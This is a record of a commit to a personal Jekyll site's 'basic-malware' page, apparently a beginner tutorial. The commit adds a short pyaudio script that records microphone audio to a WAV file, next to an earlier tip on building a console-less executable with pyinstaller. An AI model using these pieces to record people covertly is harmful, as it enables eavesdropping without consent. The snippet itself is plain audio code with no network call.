

Before and after one commit to Connor-McCartney/Connor-McCartney.github.io, a Jekyll site: the page built from _pages/misc/basic-malware.md, in a window 1280 px wide and 1400 px high, scrolled down 275 px. Shown: the top 1374 px of the window at 91% size, without its empty margins (0-1035 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 1009 px from its top, so only the background shows below that.

Commit message:
Update basic-malware.md

````diff
--- a/_pages/misc/basic-malware.md
+++ b/_pages/misc/basic-malware.md
@@ -32,3 +32,30 @@ A simple one in this case is add `--noconsole` to pyinstaller.
 ```
 pip install pyaudio
 ```
+
+
+```python
+import pyaudio
+import wave
+
+def record_audio(seconds, filename):
+    p = pyaudio.PyAudio()
+    fs = 44100
+    chunk = 1024
+    stream = p.open(format=pyaudio.paInt16,channels=2,rate=fs,frames_per_buffer=chunk,input=True)
+    frames = []
+    for _ in range(0, int(fs / chunk * seconds)):
+        data = stream.read(chunk)
+        frames.append(data)
+    stream.stop_stream()
+    stream.close()
+    p.terminate()
+    wf = wave.open(filename, 'wb')
+    wf.setnchannels(2)
+    wf.setsampwidth(p.get_sample_size(pyaudio.paInt16))
+    wf.setframerate(fs)
+    wf.writeframes(b''.join(frames))
+    wf.close()
+
+record_audio(seconds=10, filename="output.wav")
+```
````
